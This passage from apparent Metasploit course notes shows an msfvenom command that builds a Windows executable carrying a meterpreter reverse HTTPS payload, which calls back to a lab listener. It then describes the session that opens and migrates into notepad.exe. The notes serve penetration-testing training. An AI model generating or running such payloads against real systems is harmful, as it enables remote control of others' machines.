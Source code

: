 - With the listener configured and running, we can, for example, launch an executable containing a meterpreter payload from our Windows VM. We can create this executable with msfvenom.
  ```bash
  msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.50.156 LPORT=443 -f exe -o met.exe
  ```
  ![Picture](../22.%20The%20Metasploit%20Framework/Image/40.png)
- When executed, our multi/handler accepts the connection.
- The session was spawned using an encoded second stage payload and successfully migrated automatically into the notepad.exe process.
